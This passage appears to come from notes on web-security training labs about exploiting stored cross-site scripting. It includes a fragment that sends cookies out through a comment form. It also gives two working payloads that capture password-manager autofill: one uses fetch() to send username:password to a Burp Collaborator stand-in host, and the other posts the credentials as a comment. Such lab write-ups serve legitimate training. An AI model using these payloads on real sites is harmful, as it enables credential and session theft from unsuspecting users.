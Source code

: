 ```bash
            body: `csrf=${csrf}&postId=${postId}&name=ffffffff&comment=${document.cookie}&email=ff%40ff.com&website=http%3A%2F%2Fasdfsdaf.com`
        })
    })
</script>
```

### Exploiting cross-site scripting to capture passwords
Many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.

The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.) 

### (Lab): Exploiting cross-site scripting to capture passwords
First solution: Paste the following payload into a text input field, e.g. website has a `post comment input field` (stored xss)
This will make other users send `username:pass` to your own server:
```bash
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Second solution. Make users post submit their `username:pass` to the server db (e.g. by making them submit a comment)
```bash
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">

<script>
    function dothis() {
    const username = document.getElementsByName('username')[0].value
    const password = document.getElementsByName('password')[0].value
    const token = document.getElementsByName('csrf')[0].value
    const data = new FormData();

    data.append('csrf', token);
    data.append('postId', 6);
    data.append('comment', `${username}:${password}`);
    data.append('name', 'victim');
    data.append('email', 'blah@email.com');
    data.append('website', 'http://blah.com');

    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
    };
</script>
```
